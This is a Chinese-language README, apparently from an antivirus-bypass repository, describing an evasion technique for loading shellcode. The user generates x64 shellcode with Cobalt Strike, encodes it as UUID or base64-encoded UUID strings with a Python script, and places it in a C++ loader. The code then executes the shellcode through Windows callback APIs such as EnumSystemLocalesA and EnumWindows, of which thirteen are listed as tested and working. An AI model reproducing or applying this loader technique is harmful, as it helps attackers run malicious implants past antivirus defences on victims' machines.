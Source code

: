 # 免杀方式：回调函数



## 编译环境：

VS2022、Windows SDK 10.0、C++14



## 上手指南

 使用Cobalt Strike生成X64位的shellcode

![image-20220218181020741](../images/image-callback-1.png)

###  版本0.1

将shellcode替换至./v0.1/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid)

```bash
python3 ./v0.1/trans.py
```

![image-20220218192747863](../images/image-callback-2.png)

将转换好的uuid，替换至./v0.1/main.cpp中的uuids字符串数组中

编译运行即可。



### 版本0.2

将shellcode替换至./v0.2/trans.py中的buf变量，并执行该脚本。(shellcode -> uuid -> base64)

```bash
python3 ./v0.2/trans.py
```

![image-20220218193413454](../images/image-callback-3.png)

将转换好的uuid，替换至./v0.2/main.cpp中的uuids_base64数组中

编译运行即可。



## 解决出现黑框情况

[VS中运行去除黑框](https://github.com/midisec/BypassAnti-Virus/blob/main/common/VS%E4%B8%AD%E8%BF%90%E8%A1%8C%E5%8E%BB%E9%99%A4%E9%BB%91%E6%A1%86.md)



## 原理分析

什么是UUID？  通用唯一标识符 ( Universally Unique Identifier )， 我们可以利用该机制将shellcode转化成uuid，并在运行程序时，将uuid重新转化成uuid，加载至内存。

什么是回调函数？  回调函数（callback）是一个通过函数指针来调用的函数。

如何利用回调函数？  在windows系统中，有许多库函数需要传递一个回调函数，因此我们可以通过该机制，将恶意的shellcode加载至内存。

![cucv50oqin](../images/image-callback-4.png)

WINDOWS库中，可利用的回调函数，经过测试，以下均可以成功执行回调函数加载shellcode。

```c++
EnumSystemLocalesA((LOCALE_ENUMPROCA)ha, 0);
EnumTimeFormatsA((TIMEFMT_ENUMPROCA)ha, 0, 0);
EnumWindows((WNDENUMPROC)ha, 0);
EnumDesktopWindows(NULL,(WNDENUMPROC)ha, 0);
EnumThreadWindows(0, (WNDENUMPROC)ha, 0);
EnumSystemGeoID(0, 0, (GEO_ENUMPROC)ha);
EnumSystemLanguageGroupsA((LANGUAGEGROUP_ENUMPROCA)ha, 0, 0);
EnumUILanguagesA((UILANGUAGE_ENUMPROCA)ha, 0, 0);
EnumSystemCodePagesA((CODEPAGE_ENUMPROCA)ha, 0);
EnumDesktopsW(NULL,(DESKTOPENUMPROCW)ha, NULL);
EnumSystemCodePagesW((CODEPAGE_ENUMPROCW)ha, 0);
EnumDateFormatsA((DATEFMT_ENUMPROCA)ha, 0, 0);
EnumChildWindows(NULL, (WNDENUMPROC)ha, 0);
```





## 参考

https://my.oschina.net/u/4079523/blog/5011399

https://cloud.tencent.com/developer/article/1819583

https://mp.weixin.qq.com/s/3Hit7a3hQ97XDHaMSZQ8cQ

https://docs.microsoft.com/en-us/windows/win32/api/winuser/nf-winuser-enumthreadwindows
